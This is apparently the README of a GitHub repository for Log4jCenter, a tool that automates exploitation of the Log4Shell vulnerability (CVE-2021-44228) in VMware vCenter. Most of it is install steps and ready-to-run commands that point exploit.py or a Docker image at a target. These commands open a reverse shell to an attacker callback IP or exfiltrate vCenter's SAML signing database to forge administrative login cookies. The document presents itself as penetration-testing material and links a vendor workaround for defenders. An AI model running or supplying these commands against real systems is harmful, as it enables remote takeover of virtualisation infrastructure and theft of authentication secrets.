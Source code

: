 # Log4jCenter

Exploiting CVE-2021-44228 in vCenter for remote code execution and more. Blog post detailing exploitation linked below:

* [How to exploit Log4j vulnerabilities in VMWare vCenter](https://www.sprocketsecurity.com/blog/how-to-exploit-log4j-vulnerabilities-in-vmware-vcenter)

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process and showcases an additional attack path that is possible after exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jCenter \
    && cd Log4jCenter && pip3 install -r requirements.txt
```

From the root of the Log4jCenter repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jCenter \
    && cd Log4jCenter && docker build -t log4jcenter .
```

To run the container, run a command similar to the following with your command line flags appended. For example, the command below would be used to exploit vCenter and get a reverse shell. Note that the container will not catch the reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -v $(pwd)/loot:/Log4jCenter/loot -p 8090:8090 -p 1389:1389 log4jcenter \ 
    -t 10.100.100.1 -i 192.168.1.1 -p 4444 -r
```


# Usage

```
usage: exploit.py [-h] -t IP -i CALLBACK [-p PORT] [-e] [-r]

optional arguments:
  -h, --help            show this help message and exit
  -t IP, --target IP    vCenter Host IP
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
  -e, --exfiltrate      Module to pull SAML DB
  -r, --revshell        Module to establish reverse shell
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -t vcenter.acme.com -i 10.10.10.1 -p 4444 -r
```

Exfiltrate the SAML signing databases from within a Docker container:

```
docker run -it -v $(pwd)/loot:/Log4jCenter/loot -p 1389:1389 -p 8090:8090 log4jcenter \
    -t 10.100.100.1 -i 192.168.1.1 -e
```

# Notes

* For some unkown reason, the reverse shell payload may not fire after first run of the script. You may have to run the exploit a few times to get the callback. Going to explore this and include a fix in a future release. 
* Included in the utils directory is the repository [vcenter_saml_login](https://github.com/horizon3ai/vcenter_saml_login). You can use this in combination with the e flag to exfiltrate the vCenter SAML signing database and generate an administrative login cookie for vSphere. You will need to install requirements separately.
* For defenders, you can mitigate this issue using a patch coming soon or the workaround detailed [here](https://kb.vmware.com/s/article/87081)

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.

